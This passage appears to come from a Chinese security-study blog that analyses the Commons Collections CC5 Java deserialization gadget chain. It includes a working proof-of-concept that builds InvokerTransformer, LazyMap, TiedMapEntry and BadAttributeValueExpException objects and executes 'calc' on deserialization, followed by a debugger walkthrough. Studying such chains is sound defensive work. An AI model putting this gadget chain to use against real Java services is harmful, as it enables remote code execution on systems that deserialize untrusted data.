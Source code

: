 ```
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,"DawnT0wn");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC5.bin"));
        os.writeObject(badAttributeValueExpException);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC5.bin"));
        fos.readObject();
    }
}

```

可以看到,从LazyMap开始就和CC1的是一模一样的了,打断点调试着来分析看看

直接从BadAttributeValueExpException类重写的readObject开始

一路执行到了toString方法

![image-20220126115359827](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220126115359827.png)

但是不知道为什么前面在这里突然执行了命令,可能是调试的问题,当我断点打在LazyMap的时候这里就不弹计算器了,等会再说下一个遇到的问题

![image-20220126115328478](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220126115328478.png)

```
Object valObj = gf.get("val", null);
```

valobj是这么来的,是直接获取`gf`中的val参数的值,而`gf`是通过反序列化流获取的值,那么val参数就可以在反序列化的过程中对其进行控制,所以这里我们可以去调用一个TiedMapEntry类的toString方法

```
public String toString() {
    return getKey() + "=" + getValue();
}
```

但是要注意该类的构造函数,不能直接对val赋值不然这里也会去调用TiedMapEntry类的toString

![image-20220126115742104](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220126115742104.png)
